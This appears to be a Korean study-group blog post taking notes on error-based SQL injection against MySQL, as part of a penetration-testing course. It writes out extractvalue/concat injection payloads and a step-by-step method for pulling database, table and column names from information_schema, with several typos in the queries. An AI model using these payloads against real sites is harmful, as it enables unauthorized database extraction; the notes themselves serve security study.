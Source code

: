 ```yaml
---
layout: post
title:  노말틱 모의해킹 스터디 7주차 강의 정리 Error Based SQLi, Blind SQLi
author: leewoojin
date: 2025-05-23 00:00:00 +0900
categories: [Pentest, W6]
tags: []
---
```


## Error Base SQL Injecton 

1) SQL 질의가 결과가 화면에 출력된다 - union sqli 
2) Eroor 출력될 때 -> Error Based SQL injection 
- 에러 메시지르 활용 해서 데이터를 출력 
> 로직 에러 
> SQL 에러 

- 문법 에러 -> 쓸모가 없다 


Error Based SQL injection (ID 중복 검사 )
`normaltic and extractvalue('1', ':normaltic')' and '1'='1 

extracvalue(1,2)

normaltic' and extractvalue ('1', concat (0x3a, (select 'normatltic'))) and '1'= '1 
concat() - 문자를 합쳐주는 함수는 
0x3a - :

----
* Error Based SQL Injection 
-> 에러 메시지를 활용해서 sql 질의문을 삽입. 
-> 데이터를 추출
(select ~)
(select pass from member where id='normatic')=1

* Select 문의 결과를 어떻게 에러 메시지에 포함 시킬까? 
mysql, oracle , messsql 등 
mysql - extractavlue ('xml 글자' , ' xml 표현식')

extractvalue ('1', ':normaltic' )


Concat ('hello', 'test') -> hellotest
concat (0x3a, 'select') -> :select~
: 를 넣는 이유 extractvalue 특성상 노말 xml 표현식이 아니라서 (에?)

---
SQL 포인트 찾기 

1. SQL Injection Point 
2. 에러 출력 함수 extractvalue 
3. 공격 format 만들기 
normaltic' and extractavalue('1', concat (0x3a,())) and '1'='1
4. DB 이름 출력 
-> select database()
5. 테이블 이름 
select table_name form information_schema.tables where table_schema'db명' limit 0,1 
limit 을 안쓰면 행이 많아서 오류가 남  
두번째 테이블을 보고 싶다면 limit 1,1
6. 컬럼 이름 
select column_name from information_schema.columms.where table_name'테이블명' limit 0,1

---